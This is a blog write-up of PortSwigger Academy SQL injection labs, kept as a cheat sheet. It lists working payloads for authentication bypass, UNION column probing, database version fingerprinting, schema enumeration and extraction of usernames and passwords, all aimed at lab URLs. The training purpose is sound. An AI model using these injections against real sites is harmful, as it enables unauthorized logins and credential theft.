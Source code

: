 ```yaml
---
layout: post
title: Portswigger Academy - SQL Injection
date: 2023-06-06 15:43:18 +0200
categories: [Portswigger Academy, SQL Injection]
tags: [SQL Injection, Write-up, Cheat Sheet]
img_path: /assets/img/labs/portswigger/sql-injection/
image:
  path: sql-injection.png
---
```


## Info

This is my write-up for the *SQL Injection* learning path at the Portswigger Academy.\
The reason for this write-up is to have a cheat-sheet or some go-to notes for myself.\
Probably I've found flags in a different way than intended (with or without the use of BurpSuite), and not always in the order of learning path.

[Portswigger Academy - SQL Injection](https://portswigger.net/web-security/sql-injection)

## LAB : SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This is an easy one. Just navigate to a category, and SQL Inject the GET query.\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' OR 1=1--`

## LAB : SQL injection vulnerability allowing lobin bypass

This one can be done by passing a SQL Injection in the *password* field of the login form.

- Username: `administrator`
- Password: `' or 1=1--`

## LAB : SQL injection UNION attack, determining the number of columns returned by the query

This can also be done by injecting the SQL injection straight into the GET query of the URL.

First we need to check how many columns the original query returns, and match those.\
Start off with one *NULL* and keep adding until you don't get an error anymore.\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT NULL,NULL,NULL--`

Now we know we need to return 3 columns in our injection, we need to find a column that can contain a string.\
Again, start with trying the first column, and move further untill you don't get an error anymore.\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT NULL,'abc',NULL--`


## LAB : SQL injection UNION attack, retrieving data from other tables

Building on the previous lab. First check how many columns we need to return:\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT NULL,NULL--`

Check which columns can contain strings (and where you see the 1st column, and where the 2nd):\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT 'abc','xyz'--`

Now we can print all usernames with their passwords as a new item:\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT username,password FROM users--`

## LAB : SQL injection attack, querying the database type and version on Oracle

Trying what we did in the previous 2 labs doesn't work here. No matter how many *NULL*s we add, we keep getting errors:\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT NULL,NULL,NULL--`

That's because in this case there's no MS-SQL as backend. But an Oracle database (as suggested in the title of the lab)\
For Oracle DB's we have to do the following:\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT NULL,NULL FROM dual--`

Now that this doens't return an error, we can actually check which database type we are dealing with:\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT NULL,banner FROM v$version--`


## LAB : SQL injection attack, querying the database type and version on MySQL and Microsoft

Going back to the basics, on trying to figure out how many columns need to be returned by the injection, all attempts failed.\
Both the normal `UNION SELECT NULL,NULL,NULL--` as well as the previous `UNION SELECT NULL,NULL,NULL FROM dual--`.\
Looking at the SQL Injection cheat sheet, referred to in the lab, it shows that for MySQL you need to use the *#* to force exit a query statement.\
However, trying this directly in the browser didn't work either... So... Welcome BurpSuite.

Intercept the request to show the items in a certain category. And modify the GET call:\
`GET /filter?category=Pets'+UNION+SELECT+NULL,NULL#`\
`GET /filter?category=Pets'+UNION+SELECT+'abc','xzy'#`\
`GET /filter?category=Pets'+UNION+SELECT+'abc',@@version#`


## LAB : SQL injection attack, listing the database contents on non-Oracle databases.

The lab tells us that it's not an Oracle database, so first things first, let's try to find the number of columns we need to return; and which can contain strings:\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT NULL,NULL--`\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT 'abc','xyz'--`

We now know that we have two string columns, one for the title, one for the body. Let's see which tables exist in the database:\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT 'existing tables',Table_Name FROM information_schema.tables--`

In here, we see an interesting table `users_whjefl` (your's might be a different random string). Next up, see which colums exist in this table:\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT 'existing columns',Column_Name FROM information_schema.columns WHERE Table_Name='users_whjefl'--`

And also here, we find 2 interesting column names. One for the usernames, one for the passwords. Now we can extract all the user info:\
`https://xxxxxx.web-security-academy.net/filter?category=Pets' UNION SELECT username_jdlmjy,password_pdopfu FROM users_whjefl--`

With the usernames and passwords returned, we can login as the administrator on this website. 




## Credits

[Header image by flaticon](https://www.flaticon.com/free-icons/hacking)

